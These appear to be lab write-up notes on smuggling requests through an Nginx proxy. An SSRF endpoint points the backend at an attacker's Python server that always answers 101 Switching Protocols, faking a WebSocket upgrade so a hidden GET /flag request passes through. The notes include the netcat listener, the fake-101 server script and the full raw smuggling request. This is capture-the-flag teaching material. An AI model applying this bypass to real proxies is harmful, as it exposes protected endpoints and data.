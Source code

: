 So far, we've been working with a proxy that won't check the web server's response to determine whether the WebSocket upgrade was successful. In this task, we'll replace the vulnerable Varnish proxy with an Nginx proxy that checks responses before tunnelling requests through a WebSocket connection. The backend application will still have the `/socket` endpoint enabled with WebSockets and the `/flag` endpoint as our target. The new application can be accessed via `http://MACHINE_IP:8002/`.

First, let's try running the payload we used in the previous task to see if it works:
	![](Pasted%20image%2020250215034145.png)

Notice how Nginx won't leak the flag despite getting a `426` response for the initial WebSocket upgrade attempt. Since Nginx is checking the response code of the upgrade, it can determine that no valid WebSocket connection was established; therefore, it won't allow us to smuggle the `/flag` request.


## Tricking the Proxy
Since we can't just smuggle requests anymore, we need to find a way to trick the proxy into believing a valid WebSocket connection has been established. This means we need to somehow force the backend web server to reply to our upgrade request with a fake `101 Switching Protocols` response without actually upgrading the connection in the backend.

While we won't be able to do this for all applications, if our target app has some vulnerability that allows us to proxy requests back to a server we control as attackers, we might be able to inject the `101 Switching Protocols` response to an arbitrary request. In these special cases, we should be able to smuggle requests through a fake WebSocket connection again.
	![](Pasted%20image%2020250215034337.png)

## Leveraging SSRF
In this task's application, we will take advantage of an SSRF vulnerability to simulate a fake WebSocket upgrade. After a quick inspection, we can see that the application allows us to test the status of a URL. Each time we input a URL, the server will make a request to `http://MACHINE_IP:8002/check-url?server=<url>` and return the status code from the corresponding response:
	![](Pasted%20image%2020250215034452.png)

We can use `nc` in our AttackBox to check if we can direct a request to ourselves. We should get a response similar to this one:

```shell-session
nc -lvp 5555
Listening on 0.0.0.0 5555
Connection received on MACHINE_IP 52988
GET /test HTTP/1.1
Host: 10.10.11.155:5555
User-Agent: python-requests/2.31.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

This means we can successfully use the SSRF vulnerability to influence the response of the backend server. All we need to do is spin up a web server that returns a `101` status, allowing us to fake a WebSocket upgrade.

### Attacker's Web Server
We can quickly set up a web server that responds with status 101 to every request with the following Python code:
```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

Let's save the code to a file named myserver.py in our AttackBox and run it with the following command. This should spin up a web server on port 5555 that will reply with a 101 status code to any request.

```shell
python3 myserver.py 5555
```


### Faking a WebSocket
We are finally ready to launch our payload. Let's use Burp's Repeater to send a request to **/check-url** against our malicious server. The request should look like this:

```shell
GET /check-url?server=http://10.10.11.155:5555 HTTP/1.1
Host: MACHINE_IP:8002
Sec-WebSocket-Version: 13
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: MACHINE_IP:8002
```

If all goes as expected, you should get a request in your malicious web server and the flag value in Burp:
	![](Pasted%20image%2020250215035020.png)

Explanation: 
	1) SSRF must be present as we have the application to make request against our malicious server
	2) configuring our own server in order to respond with 101 (upgrading sockets)
	3) proxy will forward our 101 request directly to the backend server
	4) proxy will forward the backend server response containing sensitive data (bypassing proxy restriction)

**Note:**
	Remember that `/check-url` is not a WebSocket endpoint. We are just manipulating both the request and response that the proxy gets to make it believe this is a real WebSocket. This means that the proxy will tunnel the second request in our payload as if it were part of a WebSocket connection, but the backend will just process the request as HTTP since there's no WebSocket in reality.


**More info:**
- https://github.com/0ang3el/websocket-smuggle